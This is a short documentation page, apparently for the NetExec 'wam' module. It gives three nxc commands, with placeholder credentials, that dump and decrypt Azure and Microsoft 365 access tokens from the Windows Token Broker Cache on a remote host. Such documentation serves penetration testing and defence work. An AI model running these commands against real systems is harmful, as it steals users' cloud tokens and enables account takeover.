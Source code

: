 ```yaml
---
description: Dump access token for Azure and Microsoft 365 from Token Broker Cache.
---
```


# 🆕 Dump Token Broker Cache

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Microsoft 365 and Azure applications on desktop will store access tokens to the Token Broker Cache. These are stored with user DPAPI. You can use the `wam` module in order to decrypt them. More info here [https://blog.xpnsec.com/wam-bam/](https://blog.xpnsec.com/wam-bam/)

```
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --mkfile masterkeys.txt
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --pvk domain_backup_key.pvk
```

{% embed url="https://blog.xpnsec.com/wam-bam/" %}
